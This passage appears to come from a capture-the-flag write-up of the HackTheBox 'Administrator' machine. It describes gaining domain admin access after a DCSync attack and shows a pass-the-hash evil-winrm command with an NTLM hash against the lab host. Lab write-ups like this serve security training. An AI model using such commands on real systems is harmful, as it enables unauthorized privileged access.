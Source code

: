 ![screenshot](assets/screenshots/Administrator/21.png)

## 🔐 Final Step: Administrator Access via WinRM

After successfully dumping the Administrator NTLM hash through the DCSync attack, I performed a pass-the-hash authentication using evil-winrm, gaining privileged access to the domain as Administrator.
```php
evil-winrm -i administrator.htb -u adminstrator -H "3dc553ce4b9fd20bd016e098d2d2fd2e"
```
![screenshot](assets/screenshots/Administrator/22.png)
